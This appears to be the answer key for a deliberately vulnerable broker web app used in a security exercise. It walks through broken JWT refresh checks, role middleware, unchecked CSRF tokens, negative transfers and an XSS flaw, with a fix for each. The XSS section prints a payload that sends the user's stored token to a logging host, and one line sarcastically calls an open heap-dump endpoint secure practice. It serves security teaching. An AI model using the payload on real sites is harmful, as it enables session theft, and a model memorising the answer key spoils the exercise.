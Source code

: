# Bergbroker - Solution

## Access Control

### Vertical

Vertical Access Control limits functionality per user. This is utterly broken in several places:

The endpoint responsible for refreshing access tokens does not verify the refresh tokens signature, it merely decodes it:

```js
const valid = jwt.decode(refresh_token);

if (!valid) return res.sendStatus(401);
```

Instead, it should verify the signature (example code):

```js
let valid;
try {
    valid = jwt.verify(refresh_token, REFRESH_SECRET);
    
    if (!valid?.session) throw new Error("No token");
} catch (e) {
    return res.sendStatus(401);
}
```

Additionally, the refresh token lasts a whole 30 seconds: (which should guide the student in the correct direction)

```js
const ACCESS_TOKEN_TTL = 60 * 60; // 60 minutes
const REFRESH_TOKEN_TTL = 30; // 30 days
```

This can be fixed by just lengthening the tokens TTL:

```js
const ACCESS_TOKEN_TTL = 60 * 60; // 60 minutes
const REFRESH_TOKEN_TTL = 30 * 24 * 60 * 60; // 30 days
```

### Horizontal

Horizontal Access Control limits functionality per role. This is also severely broken:

The middleware responsible for checking the users role uses `filter` instead of `find`, which just means that it will always return an array, even if the user is not found:

```js
export const requireRoles = (roles) => (req, res, next) => {
    if (!req.user.roles.filter((role) => roles.includes(role)))
        return res.sendStatus(403);

    next();
};
```

This can be fixed by using `find` instead:

```js
export const requireRoles = (roles) => (req, res, next) => {
    if (!req.user.roles.find((role) => roles.includes(role)))
        return res.sendStatus(403);

    next();
};
```

As an easter-egg, the `/actuator/heapdump` endpoint allows any user to create heap dumps. See [this talk](https://media.ccc.de/v/38c3-wir-wissen-wo-dein-auto-steht-volksdaten-von-volkswagen) why this is _incredibly_ secure and should be common practice.

## Cross-site request forgery (CSRF)

The application issues valid CSRF tokens, but never actually checks them. This can be fixed by mapping the middleware to the correct path:

```js
brokerRouter.post("/csrf", (req, res, next) => {
```

should actually be:

```js
brokerRouter.post((req, res, next) => {

// or

brokerRouter.post("*", (req, res, next) => {
```

It should be noted that while this theoretically makes CSRF attacks possible, credentials are not stored in cookies, so the impact is limited.

## Validation Issue

Amount validation is missing from the `/transfer` endpoint, negative transfers are possible.

Fix:

```js
if (amount <= 0)
    return res.status(400).json({ error: "Invalid amount" });
```

## Injection / XSS

The following leads to XSS when clicking a transaction:
See also: [xss-image.rest](xss-image.rest)

```http
POST {{baseurl}}/broker/transfer
Authorization: Bearer {{access_token}}
Content-Type: application/json

{
    "peer": "admin",
    "amount": 1,
    "image": "javascript:fetch('<http://localhost:9090/log',{method:'POST',body:localStorage.getItem('token')}>);",
    "csrf": "{{csrfRequest.response.body.$.csrf}}"
}
```

Without using this javascript: url-pattern, an attacker can still de-anonymize our users by using external urls. The main problem stems from piping untrusted user input into the href attribute of an a tag.

```js
if (image && !image.startsWith("data:image/")) {
    return res.status(400).json({ error: "Invalid image" });
}
```

and remove the a tag

I also tried doing XSS by using a rogue svg image, but browsers generally do not allow images to run JavaScript.

## Client issues

When manually editing the localStorage to obtain the "admin" role, the user can access the `/admin/users` page.
On this page, the user can see all users and their roles.
When the access control vulnerability is fixed, the user is rewarded with the password of the "john" user.
